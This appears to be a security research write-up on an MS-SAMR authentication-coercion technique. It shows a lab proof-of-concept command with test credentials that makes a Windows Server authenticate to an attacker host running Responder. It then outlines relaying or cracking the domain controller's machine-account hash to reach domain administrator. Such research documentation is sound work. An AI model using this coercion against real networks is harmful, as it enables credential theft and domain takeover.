 # MS-SAMR - Remote call to SamrConnect5 (opnum 64)

## Summary

+ **Protocol**: [[MS-SAMR]: Security Account Manager (SAM) Remote Protocol (Client-to-Server)](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-samr/4df07fab-1bbc-452f-8e92-7853a3c7e380)

+ **Protocol UUID**: 12345778-1234-abcd-ef00-0123456789ac

+ **Protocol version**: 1.0

+ **SMB Named pipe**: ``

+ **Function name**: [`SamrConnect5`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-samr/c842a897-0a42-4ca5-a607-2afd05271dae)

+ **Function operation number**: `64`

+ **Authenticated**: Yes


## Description

In order to call a remote procedure to trigger an authentication from the remote machine to an arbitrary target, we first need to authenticate to the remote machine, usually on SMB. Then we need to connect to the remote SMB pipe `` and bind to the desired [`MS-SAMR`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-samr/4df07fab-1bbc-452f-8e92-7853a3c7e380) protocol (with uuid `12345778-1234-abcd-ef00-0123456789ac` and version `1.0`) in order to perform remote procedure calls to functions in the [`MS-SAMR`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-samr/4df07fab-1bbc-452f-8e92-7853a3c7e380) protocol.

The IP 192.168.2.51 being my attacking machine where I listen with Responder, and 192.168.2.1 being the IP of my Windows Server. When starting this script, it will authenticate and connect to the remote pipe named `` This pipe is connected to the protocol [[MS-SAMR]: Security Account Manager (SAM) Remote Protocol (Client-to-Server)](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-samr/4df07fab-1bbc-452f-8e92-7853a3c7e380) and allows to call RPC functions of this protocol. We will then call the remote [`SamrConnect5`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-samr/c842a897-0a42-4ca5-a607-2afd05271dae) function on the remote Windows Server (192.168.2.1) with the following parameters:

```cpp
SamrConnect5('192.168.2.51\x00')
```

We can try this with this proof of concept code ([coerce_poc.py](./coerce_poc.py)):

```bash
./coerce_poc.py -d "LAB.local" -u "user1" -p "Podalirius123!" 192.168.2.51 192.168.2.1
```

![](./imgs/poc.png)

This will force the Windows Server (192.168.2.1) to authenticate to the SMB share `\\192.168.2.51\share` and therefore authenticate using its machine account (`DC01$`).  After this RPC call, we get an authentication from the domain controller with its machine account directly on Responder:

![](./imgs/hash.png)

After this step, we relay the authentication to other services in order to elevate our privileges, or try to downgrade it to NTLMv1 and crack it in order to get the NT hash of the domain controller's machine account. This kind of vulnerabilities allows to quickly get from user to domain administrator in unprotected domains!


## Function technical detail

```cpp
long SamrConnect5(
   [in, unique, string] PSAMPR_SERVER_NAME ServerName,
   [in] unsigned long DesiredAccess,
   [in] unsigned long InVersion,
   [in] [switch_is(InVersion)] SAMPR_REVISION_INFO* InRevisionInfo,
   [out] unsigned long* OutVersion,
   [out, switch_is(*OutVersion)] SAMPR_REVISION_INFO* OutRevisionInfo,
   [out] SAMPR_HANDLE* ServerHandle
 );
```

## References

+ Documentation of protocol [MS-SAMR]: Security Account Manager (SAM) Remote Protocol (Client-to-Server): https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-samr/4df07fab-1bbc-452f-8e92-7853a3c7e380

+ Documentation of function `SamrConnect5`: https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-samr/c842a897-0a42-4ca5-a607-2afd05271dae